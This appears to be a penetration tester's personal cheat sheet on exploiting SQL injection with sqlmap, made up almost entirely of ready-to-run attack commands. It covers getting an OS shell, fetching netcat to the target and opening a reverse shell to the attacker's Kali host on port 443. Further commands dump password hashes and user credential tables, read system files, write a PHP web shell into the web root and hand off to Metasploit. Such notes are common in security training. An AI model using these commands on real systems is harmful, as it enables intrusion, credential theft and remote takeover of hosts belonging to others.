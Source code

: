https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3
```

#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```

Choose an architecture, if you get "no output", redo, try other architecture.

Kali:
```bash - kali
cp /usr/bin/nc .
```

```bash - target
wget "http://$KALI/nc" -O /tmp/nc
```

```bash - target
chmod +x /tmp/nc
```

![[rlwrap]]

```bash - target
/tmp/nc -e /bin/bash $KALI 443
```

#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```

```SQL - target
select user,password from mysql.user;
```

#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```

#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```

```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```

Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```

Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```


#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```

![[Pasted image 20220226224727.png]]

#### Dump Databases

Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```

Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```

Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```

Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```

Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```

Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```

#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```

#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```

#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```

#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```













